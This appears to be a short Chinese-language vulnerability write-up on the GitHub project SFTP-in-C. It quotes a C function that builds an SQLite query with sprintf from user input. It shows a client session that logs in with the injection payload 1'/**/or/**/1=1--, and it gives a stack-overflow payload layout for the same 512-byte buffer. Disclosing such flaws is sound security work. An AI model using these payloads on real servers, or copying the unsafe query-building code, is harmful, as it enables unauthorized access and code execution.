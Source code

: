 # [SFTP-in-C](https://github.com/hsingh124/SFTP-in-C)

## sql注入

在/server/sftp.c文件的user函数中存在sql注入漏洞。当用户发送USER xxx命令登录ftp服务器时，sftp通过查询sqlite3数据库中的账号密码。

```c
void user(int client_fd, sqlite3 *db, sqlite3_stmt *stmt, char *message, char *buffer)
{
	char *user_id = strtok(buffer, " ");
	user_id = strtok(NULL, " ");

	char query[512];
	sprintf(query, "select id, acc, pass from users where id = '%s';", user_id);
	sqlite3_prepare_v2(db, query, -1, &stmt, 0);
```

通过users.db文件得知用户名密码。sftp通过user函数验证用户id，通过u_acct函数验证用户名，通过pass函数验证密码。make编译后`./server`启动默认监听8080

```shell
root@kali:~/桌面/SFTP-in-C-main/client# ./client 127.0.0.1 8080
+CS725 SFTP Service
USER zhao
-zhao user id not found
USER 1'/**/or/**/1=1--
+user1 ok, send account and password
acct 1'/**/or/**/1=1--
+user1 account verified, send password
pass 1'/**/or/**/1=1--
!user1 logged in
```

## 栈溢出

逆向server文件查看user函数，跟踪传入的变量，由于user_id可以为超长字符串，query缓冲区为512，所以存在栈溢出。`payload='a'*528+'b'*8+'c'*8(8个b覆盖ebp，8个c覆盖ret-减去[select id,acc,pass from users where id='';]所占字节)`



